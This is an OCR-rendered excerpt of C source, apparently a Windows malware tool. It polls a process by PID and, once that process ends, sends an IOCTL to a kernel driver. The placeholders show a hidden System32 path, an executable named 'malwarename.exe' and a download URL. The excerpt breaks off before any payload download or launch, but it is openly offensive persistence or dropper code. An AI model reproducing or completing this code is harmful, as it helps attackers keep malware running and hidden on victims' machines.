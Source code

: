 ```c
    BOOL Status = FALSE;

    HandleProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (INVALID_HANDLE_VALUE == HandleProcessSnap) {
        return FALSE;
    }

    PE32.dwSize = sizeof(PROCESSENTRY32);
    if (!Process32First(HandleProcessSnap, &PE32)) {
        CloseHandle(HandleProcessSnap);
        return FALSE;
    }

    do {
        if (PE32.th32ProcessID == ProcessID) {
            Status = TRUE;
            break;
        }
    } while (Process32Next(HandleProcessSnap, &PE32));

    CloseHandle(HandleProcessSnap);
    return Status;
}

BOOLEAN MonitorProcess(DWORD ProcessID) {
    BOOL IsRunning = IsProcessRunning(ProcessID);
    int CheckInvertal = 5000;

    printf("[*] Listening Process... (PID: %lu)\n", ProcessID);

    while (IsRunning) {
        Sleep(CheckInvertal);
        IsRunning = IsProcessRunning(ProcessID);
        if (!IsRunning) {
            printf("[-] Process Terminated!\n");
            break;
        }
    }
    return IsRunning;
}

int main(int argc, char* argv[]) {
    if (argc < 2) {
        printf("Usage: .\\program.exe <PID>\n");
        return -1;
    }
    CHAR ExecutablePath[0x80] = "C:\\Windows\\System32\\HiddenFile";
    CHAR ExecutableName[0x80] = "malwarename.exe";
    CHAR ExecutableUrl[0x80] = "https://url";
    DWORD CurrentPID = atoi(argv[1]);
    ULONG_PTR d_PID = (ULONG_PTR)strtoul(argv[1], NULL, 10);
    CHAR PathForUnicode[0x80];
    HANDLE HandleNewProcess = NULL;
    HANDLE ProcessID = NULL;
    DWORD Error;
    BOOL Result;
    UNICODE_STRING ImagePath;
    WCHAR UnicodeExecutablePath[256];
    NTSTATUS Status;

    Result = MonitorProcess(CurrentPID);
    if (!Result) {
        Result = ConnectDriver(IOCTL_CREATE_DIRECTORY, NULL, 0, NULL, 0);
```